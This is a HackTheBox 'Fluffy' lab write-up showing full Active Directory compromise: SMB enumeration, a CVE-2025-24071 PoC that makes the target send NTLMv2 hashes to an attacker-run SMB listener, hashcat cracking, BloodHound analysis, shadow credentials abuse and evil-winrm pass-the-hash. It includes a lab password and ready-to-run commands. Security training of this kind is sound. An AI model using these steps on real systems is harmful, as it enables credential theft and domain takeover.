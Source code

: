 
# Executive Summary – HTB Fluffy

The HTB Fluffy machine is an "Easy" rated Windows Active Directory environment designed to simulate a real-world enterprise network. 

This engagement commenced with initial access via valid credentials for the user `j.fleischman`, provided in a compromised state. Subsequent enumeration and exploitation revealed several critical vulnerabilities:

## Successful Attacks / Compromise
- **CVE-2025-24071**: Vulnerability in Simple DNS Plus allowing NTLMv2 hash extraction.
- **Shadow Credentials Misuse**: Exploitation of GenericWrite permissions to escalate privileges.
- **ESC16 (UPN Spoofing)**: Abuse of Active Directory Certificate Services to forge certificates for administrative access.

> By chaining these vulnerabilities, full domain compromise was achieved, demonstrating the importance of robust credential management and configuration in Active Directory environments.

## Other Findings / Unsuccessful Attacks
- Listing domain users via `rpcclient enumdomusers`, revealing accounts like `Administrator`, `Guest`, `krbtgt`, service accounts (`ca_svc`, `ldap_svc`, `winrm_svc`), and user accounts (`j.coffey`, `p.agila`).  
- Gathering user information via `rpcclient queryuser j.fleischman` (password last set time, logon details, account privileges).  
- Collecting server information via `rpcclient srvinfo` (platform, OS version).  
- Kerberoasting attempted using `GetUserSPNs.py` with valid credentials. Extracted TGS hashes were tested with `Hashcat -m 13100` using wordlists (`rockyou.txt`, `johnlist`, `10k-most-common.txt`) without success.

## Key Takeaways
- Full domain compromise is possible via chained AD vulnerabilities.  
- Valid user credentials provide substantial access for enumeration.  
- Kerberoasting is a high-value attack vector, but strong service account passwords mitigate risk.  
- Detailed AD enumeration (users, groups, privileges) is critical before attempting privilege escalation.


# Detailed reproduction steps for this CVE-2025-24071 & Shadow Credentials Misuse

`sudo nmap -sC -sV 10.129.165.40`
NMAP is tool ised for port scanning, service dction and network disocver. 
- `-sC` runs nmap defaul scripts
- `sV` treis to idnefy the exact software running. 


<img src="images/nmap_scan.png" alt="nmap scan">


Next enumrate SMB share
`smbmap -H 10.129.165.40 -u "j.fleischman -p J0elTHEM4n1990!"`
 <img src="images/smbmap.png" class="report-images" alt="SMBMAP">

Form this we wee have read and write to IT share so lets see connect to that share and see if there is anything in it. 
```smbclient //10.129.165.40/IT -U "j.fleischman"`
Password for [WORKGROUP\j.fleischman]:
Should see:
smb: \> ls
  .                                   D        0  Fri Sep  5 20:08:31 2025
  ..                                  D        0  Fri Sep  5 20:08:31 2025
  Everything-1.4.1.1026.x64           D        0  Fri Apr 18 16:08:44 2025
  Everything-1.4.1.1026.x64.zip       A  1827464  Fri Apr 18 16:04:05 2025
  KeePass-2.58                        D        0  Fri Apr 18 16:08:38 2025
  KeePass-2.58.zip                    A  3225346  Fri Apr 18 16:03:17 2025
  Upgrade_Notice.pdf                  A   169963  Sat May 17 15:31:07 2025

Download UPgrade_Notice.pdf and you will see a list of vulnerbites that need patching. 
![!PDF on the SMB](images/notice.png)

To find a good example of how to run a exploit CVE- Title -github poc in google. 
You should find https://github.com/LOOKY243/CVE-2025-24071-PoC


### Steps
1. Copy the exploit.py file to your machine 
2. python3 `exploit.py -i 10.10.16.40 -s shared -f evil`
 3. Start listener for hash capture:
   `sudo impacket-smbserver shared /home/franky/Documents/FLUFFY -smb2support`
   3. Upload payload to target IT share.
      `put evil.zip`

4. You should see username + hash on listner.

5. Crack the with rockyou.txt: 
  `hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt`

6. Create a BloodHound file and upload to bloodhound review.
      `sudo nxc ldap dc01.fluffy.htb -u '<USERNAME>' -p '<PASSWORD>' \
      --bloodhound --collection All --dns-tcp --dns-server <TARGET_IP>`
7. `BloodHound`
8. Should see BloodHound open in new tab in firefox
9. Upload the ladp file we created to upload 
10. Search for User we enumerated
11. Examine relationships and you will see this 
![Nmap Scan](images/bloodhound.png)
12. If examine WINRM_SVC in BloddHound, it is member of remote services add can remote login. If we try to use EVil-winrm for user p.agila or J.FLEISCHMAN will see users dint have permisison. 

Observations form BloodHound

The user we found is in SERVICE ACCOUNT MANAGERS, which has full control (GenericAll) over SERVICE ACCOUNTS; SERVICE ACCOUNTS can modify WINRM_SVC (GenericWrite).

Implications: User can indirectly modify service accounts. Compromising this user could allow escalation to WINRM_SVC via the permission chain. WINRM_SVC can access remote login is and likely has the flag. 

## Preparations

- Start a virtual environment in your folder and install the following tools in a virtual environment:
  - `pywhisker`
  - `PKINITtools`
  - `faketime`


---

### Add User to Service Accounts

`net rpc group addmem "Service Accounts" "<USER>" \
  -U "dc01.fluffy.htb"/"<USER>" -S "<TARGET_IP>"`


### Request Kerberos TGT for Service Account

If your local time does not match the Domain Controller (DC), you may encounter errors. Synchronize time first:

`sudo rdate -n <TARGET_IP>`



`faketime <DATE_TIME> python3 gettgtpkinit.py \ -cert-pem key_cert.pem \ -key-pem key_priv.pem \ fluffy.htb/<SERVICE_ACCOUNT> \  <SERVICE_ACCOUNT>.ccache`


### Set the Kerberos ticket environment variable:

> Why we do this: 

 > When you log in with a valid ticket, it gets stored in /tmp/krb5cc_<UID>.

> All Kerberos-enabled tools (smbclient, psexec.py, ldapsearch, etc.) will look in that default location to authenticate.

> But in a pentest, you often manually extract or forge tickets (e.g., with impacket, Mimikatz, or AD CS attacks). Those tickets don’t automatically go to /tmp/krb5cc_<UID>. They’re saved in a .ccache file.

> So, to make Kerberos-aware tools use your forged/extracted ticket, you tell them where it is:

`export KRB5CCNAME=<SERVICE_ACCOUNT>.ccache`


Tip: Ensure the KRB5CCNAME export works in your virtual environment. Use an absolute path if necessary.

### Retrieve NT Hash

`faketime <DATE_TIME> python3 getnthash.py \ -key <KEY> fluffy.htb/<SERVICE_ACCOUNT>`

### Access Service Account
`evil-winrm -i <TARGET_IP> -u <SERVICE_ACCOUNT> -H <NT_HASH>`



